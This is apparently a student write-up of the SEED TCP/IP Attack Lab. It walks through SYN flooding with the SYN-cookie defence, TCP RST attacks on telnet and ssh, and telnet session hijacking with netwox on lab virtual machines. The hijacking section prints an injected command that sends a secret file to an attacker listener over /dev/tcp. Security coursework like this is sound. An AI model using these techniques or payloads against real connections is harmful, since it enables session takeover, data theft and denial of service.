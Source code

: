 ```yaml
---
title: '[SEED labs] TCP/IP Attack Lab'
date: 2021-11-08 15:53
category: 'SEEDlabs'
draft: false
---
```


[Lab Instructions](https://seedsecuritylabs.org/Labs_16.04/PDF/TCP_Attacks.pdf)

## Network Setup

For this lab, a network between virtual machines have been made.

Copy and make 2 more Virtual Machines of `SeedUbuntu`. All machines have the network setting Attached to Bridged Adapter with different MAC Address and set as promiscuous mode.

![setup-1](./images/TCPIP/Network Setup/1.PNG)

Use the `ifconfig` command and check the `enp0s3 inet addr` to check the IP address of each VM.

![setup-2](./images/TCPIP/Network Setup/2.PNG)

This is how the network is set.

![setup-3](./images/TCPIP/Network Setup/3.PNG)

## Task 1: SYN Flooding Attack

The objective of this task is to perform a SYN Flooding Attack using `Netwox`.

Check that a telnet connection between the server and client is possible in a normal environment.

![1-1](./images/TCPIP/Task1/1.PNG)

If we check the TCP SYN cookies parameter of the client machine, we can see that it is set as 1. Try changing this to 0.

![1-2](./images/TCPIP/Task1/2.PNG)

Generate a TCP SYN Flooding attack from the attacker using the `netwox` . If we check the network connections in the client, we can see the client is receiving multiple `SYN_RECV` tcp packets from different sources.

![1-3](./images/TCPIP/Task1/3.PNG)

If the server tries a telnet connection to the client, it fails because of to the TCP SYN Flooding attack.

![1-4](./images/TCPIP/Task1/4.PNG)If we change the TCP SYN cookie parameter of the client to 1 and try the same process again, the server can establish a telnet connection with the client.

![1-5](./images/TCPIP/Task1/5.PNG)

![1-6](./images/TCPIP/Task1/6.PNG)

![1-7](./images/TCPIP/Task1/7.PNG)

The difference is because SYN Cookies are used to prevent SYN Flooding attacks. If SYN Cookies are used, a hash `H` of the received packet is sent back to the source of the packet as the initial sequence number. If the source is not an attacker, it sends `H+1` in the acknowledgement field back. This is used to check packets if they are from an attacker or not, and whether to fill the TCB queue or not.

## Task 2: TCP RST Attacks on telnet and ssh Connections

TCP Reset attack is an attack that can terminate an established TCP connection between two victims by spoofing a RST packet to the victims. The objective of this task is to perform a TCP RST Attack using `Netwox`.

### Attack on telnet Connection

First, set a telnet connection between the server and the client.

![2-1](./images/TCPIP/Task2/1.PNG)

Perform a TCP Reset Attack using `Netwox` and check that the connection between the server and client has ended. The filter parameter is used to choose the IP address and port to send the RST packet.

![2-2](./images/TCPIP/Task2/2.PNG)

If the server tries to connect with the client again, it is impossible.

![2-3](./images/TCPIP/Task2/3.PNG)

### Attack on ssh Connections

By using the same `Netwox` command, ssh Connections can also be terminated.

This time, the attack is filtered `dst port 22` because ssh Connections use port #22.

![2-4](./images/TCPIP/Task2/4.PNG)

## Task 4: TCP Session Hijacking

The objective of this task is to hijack an existing TCP connection (session) between two victims by injecting malicious contents into this session.

First, set a telnet connection between the server and the client.

![4-1](./images/TCPIP/Task4/1.PNG)

To verify that the hijacking has succeeded, we will make a file "Secret". Capture the Telnet Connection while making the file using Wireshark.

![4-1](./images/TCPIP/Task4/2.PNG)

Open port 9090 of the attacker to get the data, and open a new terminal in the attacker machine to prepare the attack.

`netwox -40` has a variety of parameters. Use the `Sudo netwox 40 --help` command to check each parameter. For the task, we will use the following parameters.

```
-l : ip4-src ip
-m : ip4-dst ip
-o : tcp-src port
-p : tcp-dst port
-q : tcp-seqnum uint32
-E : tcp-window uint32
-r : tcp-acknum uint32
-z : no-tcp-ack
-H : tcp-data
```

Parameters can be found from the final captured packet in Wireshark.

For the data, the hex value of `'\r cat /home/seed/secret > /dev/tcp/192.168.35.135/9090\r'`

will be used. this can be calculated easily by python.

![4-3](./images/TCPIP/Task4/3.PNG)

Using the found parameters, use `Netwox` command to perform hijacking.

We can see the structure of the packet and the message "secret" saved in the secret file sent through telnet connection.

![4-4](./images/TCPIP/Task4/4.PNG)
